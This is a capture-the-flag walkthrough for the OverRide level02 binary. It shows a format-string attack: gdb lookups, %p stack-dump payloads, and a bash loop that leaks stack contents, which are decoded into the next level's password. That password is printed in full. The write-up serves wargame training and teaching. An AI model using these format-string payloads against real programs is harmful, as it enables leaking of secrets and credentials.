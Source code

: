 # Level02 Walkthrough

## Analyzing the Program with GDB

1. **Whats happening**:  

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: admin
--[ Password: admin
*****************************************
admin does not have access!
```

- We can see a call to the system function, if the password is gud. Address is : 
```bash
(gdb) info address system
Symbol "system" is at 0x4006b0 in a file compiled without debugging.
```
- Exit address : `0x400710`

- Vulnerability here is that `username` is printed with `printf()`. So we can use the `format string attack` what is on the stack, where the password is stored. (like first level of rainfall)

- The /home/users/level03/.pass is on the stack so we can print the stack thanks to the `string format attack`. We can print content. 
```bash
Username: %p %p %p %p %p %p %p %p %p %p
or
Username: %22$p
```

or 

```bash
for(( i = 1; i < 100; i++)); do echo "$i - %$i\$p" | ./level02 | grep does; done
```
---

## Running the Program

or after the for loop : 
```bash
[...]
22 - 0x756e505234376848 does not have access!
23 - 0x45414a3561733951 does not have access!
24 - 0x377a7143574e6758 does not have access!
25 - 0x354a35686e475873 does not have access!
26 - 0x48336750664b394d does not have access!
[...]
level02@OverRide:~$ python -c 'print "756e505234376848".decode("hex")[::-1]'
Hh74RPnu
level02@OverRide:~$ python -c 'print "45414a3561733951".decode("hex")[::-1]'
Q9sa5JAE
level02@OverRide:~$ python -c 'print "377a7143574e6758".decode("hex")[::-1]' 
XgNWCqz7
level02@OverRide:~$ python -c 'print "354a35686e475873".decode("hex")[::-1]' 
sXGnh5J5
level02@OverRide:~$ python -c 'print "48336750664b394d".decode("hex")[::-1]' 
M9KfPg3H

Final: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

## Moving to level03

1. **Swith User to level03**:
    Run ```su level03```

2. **Authenticate with the Password**:

